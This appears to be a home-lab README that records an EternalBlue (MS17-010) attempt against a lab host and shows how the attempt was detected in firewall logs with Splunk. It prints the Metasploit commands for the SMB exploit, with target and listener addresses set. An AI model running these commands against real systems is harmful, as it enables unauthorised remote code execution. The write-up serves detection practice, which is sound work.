


# EternalBlue Exploit (MS17-010)

## Attack Type
Remote Code Execution

## Description
This attack exploits a vulnerability in SMB to gain remote access to the target system.

## Commands Used
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.50.5
set LHOST 192.168.10.5
run
```

## Attack Evidence
ExternalBlue exploit attempt targeting port 445 detected in firewall logs. Target is patched; attack unsuccessful.

### Exploit Setup


### Target Unsuccessful


### Detection in Splunk


## Detection query in Splunk
```spl
index=firewall sourcetype=pfsense source=udp:514
```

## Detection Logic
Unusual SMB traffic to port 445 from an attacker machine indicates exploitation attempts.
